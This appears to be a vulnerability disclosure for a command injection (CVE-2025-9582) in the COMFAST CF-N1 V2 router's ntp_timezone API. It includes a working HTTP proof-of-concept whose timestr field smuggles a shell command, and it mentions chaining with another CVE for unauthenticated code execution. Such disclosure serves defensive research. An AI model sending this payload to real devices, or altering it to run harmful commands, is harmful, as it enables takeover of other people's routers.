 

# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ntp_timezone`
PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `ntp_timezone` API (`/usr/bin/webmgnt`, function `sub_431C9C`). Attackers can inject arbitrary commands via the `timestr` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comf](http://www.comfast.cn/)[ast](http://www.comfast.cn/)[.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.co](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[mfast](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.com](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[.cn/in](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[dex.p](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[hp?m=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[conte](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[nt\&c=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[i](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ndex](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[\&a=sh](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[ow\&ca](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[tid=3](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[1\&id=](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)[772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ntp_timezone`

*   **Vulnerability**: Command Injection

*   **CVE ID**: CVE-2025-9582

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_431C9C` function handling the `ntp_timezone` configuration. Disassembly analysis shows that the user-controlled `timestr` parameter is unsanitized and directly incorporated into system commands via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `timestr`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The `timestr` parameter is inserted into command strings using `sprintf_0` (e.g., constructing cron job entries or time-related commands).

3.  The constructed commands are executed via `system_0` without sanitization, allowing injection of arbitrary commands through delimiters like `";`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=ntp_timezone HTTP/1.1
Host: cflogin.cn
Content-Length: 173
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{ "timestr":"\"; echo time > /www-comfast/test.txt #",
"timezone":"0","zonename": "0","hostname": "0","ntp_client_enabled":"0","ntp_enable_server":"0","ntp_servername":"0"
}
```



*   **Notes**: The vulnerable parameter is `timestr`, exploited using `";` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "time", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
